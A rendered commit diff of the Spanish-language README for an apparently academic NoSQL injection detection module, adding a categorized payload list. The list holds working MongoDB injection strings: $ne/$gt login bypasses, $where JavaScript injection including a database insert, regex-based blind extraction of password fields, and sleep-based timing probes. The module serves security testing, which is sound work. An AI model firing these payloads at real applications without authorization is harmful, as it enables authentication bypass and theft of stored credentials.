

Before and after one commit to MobileBurpSuite/nosql-detection-module, a Markdown page: README.md, the part around one of its changes. Shown at 84% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
Refactor: Taxonomia y Diccionario de Vectores

```diff
--- a/README.md
+++ b/README.md
@@ -29,8 +34,46 @@ El motor utiliza un conjunto de vectores estructurados y validados con base en r
 
-1. **Bypasses de Autenticación y Lógica:** Uso de operadores de comparación y desigualdad (`$ne`, `$nin`, `$gt`) para alterar condiciones lógicas en consultas de autenticación.
-2. **Extracción Ciega (Blind NoSQLi):** Aplicación de expresiones regulares (`$regex`) y funciones de coincidencia (`match`) para la recuperación incremental de información carácter por carácter.
-3. **Ejecución de Código en Servidor:** Inyección de expresiones JavaScript mediante el operador `$where` para evaluar condiciones del lado del servidor.
-4. **Pruebas Basadas en Tiempo (Time-Based):** Inyección de bucles síncronos y rutinas de retardo (`sleep`) para verificar vulnerabilidades en escenarios ciegos.
+### Categoría A: Manipulación Lógica y Bypasses de Autenticación
+Explotan la evaluación de operadores de comparación y desigualdad para alterar la condición lógica de las consultas en formularios y validaciones:
+* **Operadores de desigualdad ($ne, $nin):** Fuerza la condición a verdadero buscando elementos que no coincidan con un valor dummy.
+  * `{ $ne: 1 }`
+  * `[$ne]=1`
+  * `{$nin: [""]}`
+* **Operadores de rango y mayor que ($gt):** Seleccionan cualquier registro cuyo valor sea mayor a vacío o nulo.
+  * `{$gt: ''}`
+  * `{"$gt": ""}`
+* **Estructuras múltiples y arrays lógicos:**
+  * `', $or: [ {}, { 'a':'a' } ] }`
+  * `} ],$comment:'successful MongoDB injection'`
+
+### Categoría B: Ejecución de Código en el Servidor ($where)
+Permiten inyectar expresiones de JavaScript directamente en el motor para evaluar condiciones del lado del servidor:
+* Sentencias de evaluación directa:
+  * `true, $where: '1 == 1'`
+  * `, $where: '1 == 1'`
+  * `$where: '1 == 1'`
+  * `', $where: '1 == 1'`
+  * `1, $where: '1 == 1'`
+* Inyecciones con lógica de retorno e inserción:
+  * `'; return 'a'=='a' && ''=='';`
+  * `db.injection.insert({success:1});`
+  * `db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { emit(1,1 || 1==1`
+  * `'' || 'a'=='a'`
+
+### Categoría C: Extracción Ciega mediante Expresiones Regulares ($regex)
+Utilizadas cuando no existe un retorno directo de errores o datos en la interfaz, permitiendo exfiltrar información carácter por carácter:
+* Validación mediante patrones de coincidencia (`match`):
+  * `' && this.password.match(/.*/)//+%00`
+  * `' && this.passwordzz.match(/.*/)//+%00`
+* Variantes de codificación y bypass de sintaxis:
+  * `%20%26%26%26this.password.match(/.*/)//+%00`
+  * `%20%26%26%26this.passwordzz.match(/.*/)//+%00`
+
+### Categoría D: Pruebas de Retardo y Validación de Atributos (Time-Based / Blind)
+Diseñadas para escenarios donde la respuesta de la aplicación depende de tiempos de espera o de la existencia de atributos específicos en colecciones BSON:
+* Retardos basados en tiempo (sleep / bucles síncronos):
+  * `';sleep(5000);`
+  * `';it=new Date();do{pt=new Date();}while(pt-it<5000);`
+* Verificación de existencia de campos (`$exists`): Vectores orientados a comprobar la presencia o ausencia de llaves específicas dentro de las colecciones BSON.
 
 ---
 
@@ -38,13 +81,13 @@ El motor utiliza un conjunto de vectores estructurados y validados con base en r
 
 ![Captura de Ejecución del Módulo](docs/images/ejecucion_modulo.png)
 
-*Interfaz de configuración y resultados de la ejecución de payloads contra la API de prueba.*
+_Interfaz de configuración y resultados de la ejecución de payloads contra la API de prueba._
 
 ---
 
 ## Información del Autor y Componente
 
-* **Estudiante:** Juan Diego Suárez Barberán
-* **Componente Asignado:** Módulo de Detección de NoSQL Injection
-* **Carrera:** Ingeniería de Software
-* **Institución:** Escuela Politécnica Nacional (EPN)
+- **Estudiante:** Juan Diego Suárez Barberán
+- **Componente Asignado:** Módulo de Detección de NoSQL Injection
+- **Carrera:** Ingeniería de Software
+- **Institución:** Escuela Politécnica Nacional (EPN)
```
Also changed, not shown: other parts of README.md (+13 -8 lines), docs/images/db_engines_ranking.png (added), docs/images/db_engines_trend.png (added).
